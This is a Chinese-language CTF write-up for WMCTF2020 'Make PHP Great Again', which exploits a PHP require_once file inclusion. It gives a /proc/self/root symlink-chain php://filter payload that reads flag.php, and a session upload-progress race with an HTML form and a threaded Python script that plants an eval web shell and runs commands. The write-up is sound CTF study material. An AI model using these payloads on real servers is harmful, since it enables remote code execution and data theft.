



# \[WMCTF2020]Make PHP Great Again

## \[WMCTF2020]Make PHP Great Again

## 考点

* require\_once 绕过不能重复包含文件的限制
* 利用PHP\_SESSION\_UPLOAD\_PROGRESS进行文件包含

## wp

给了代码

```php
<?php
highlight_file(__FILE__);
require_once 'flag.php';
if(isset($_GET['file'])) {
  require_once $_GET['file'];
}
```

### 第一种做法

PHP最新版的小Trick， require\_once包含的软链接层数较多时once的hash匹配会直接失效造成重复包含

[php源码分析 require\_once 绕过不能重复包含文件的限制](https://www.anquanke.com/post/id/213235)对这个做法做了详细的解释

> php的文件包含机制是将已经包含的文件与文件的真实路径放进哈希表中，当已经`require_once('flag.php')`，已经include的文件不可以再require\_once。
>
> /proc/self指向当前进程的/proc/pid/，/proc/self/root/是指向/的符号链接，想到这里，用伪协议配合多级符号链接的办法进行绕过

payload

```
php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

### 第二种做法

利用session.upload\_progress进行文件包含

在PHP>5.4，`session.upload_progress.enabled`这个参数在`php.ini`中默认开启，在上传的过程中会生成上传进度文件，PHP将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中 ，它的存储路径可以在`phpinfo`中查到

```php
开启upload_progress功能
session.upload_progress.enabled = on

当文件上传结束后，php将会立即清空对应session文件中的内容
session.upload_progress.cleanup = on

session.upload_progress.prefix = "upload_progress_"
session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"
```

还要有一个选项

```
session.use_strict_mode=off
```

其表示对cookie中的sessionid可控，默认就是off

对于本题，是一个文件包含漏洞，可以利用`session.upload_progress`将恶意语句写入session文件，再去利用竞争在session清空前包含session文件，达到Getshell的目的。

问题是这里并没有用session\_start()开启session，还有如何获取session的位置

1. 如果`session.auto_start=on`，则PHP在接收请求的时候会自动初始化session，不再需要执行`session_start()`。但是这个选项默认关闭
2. `session.use_strict_mode`默认值为`0`，此时用户是可以自己定义`PHPSESSID`，并且PHP会自动初始化session，并产生一个键值，这个键值由`session.upload_progress.prefix`和`session.upload_progress.name`组成，最后被写入session文件里，该文件保存为`/tmp/sess_PHPSESSID`

这里利用竞争有两个方式，一个是burp，先在本地写个html的上传页面，然后抓包，加一下`PHPSESSID`，在送去爆破就可以了

```html
<!DOCTYPE html>
<html>
<body>
<form action="http://5bee85f4-0831-4fcf-a4c2-f33a607684b0.node3.buuoj.cn/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123<?php eval($_POST["cmd"]);?>" />
    <input type="file" name="file" />
    <input type="submit" value="submit" />
</form>
</body>
</html>
```







另外一种是用脚本，但是BUU有限制，脚本太快了可能跑不出来

```python
#coding=utf-8 
import io
import requests
import threading
sessid = 'peri0d'
data = {"cmd":"system('whoami');"} 
def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post( 'http://5bee85f4-0831-4fcf-a4c2-f33a607684b0.node3.buuoj.cn/', data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'}, files={'file': ('peri0d.txt',f)}, cookies={'PHPSESSID': sessid} )
def read(session):
    while True:
        resp = session.post('http://5bee85f4-0831-4fcf-a4c2-f33a607684b0.node3.buuoj.cn/?file=/tmp/sess_'+sessid,data=data)
        if 'peri0d.txt' in resp.text:
            print(resp.text)
            
            event.clear()
        else:
            print('++++++++++++++++')
if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in xrange(1,30): 
            threading.Thread(target=write,args=(session,)).start()
        for i in xrange(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set()
```

## 小结

1. 利用文件包含进行Getshell的方式还有利用phpinfo页面进行Getshell、`php7 segment fault`特性Getshell和利用日志文件Getshell

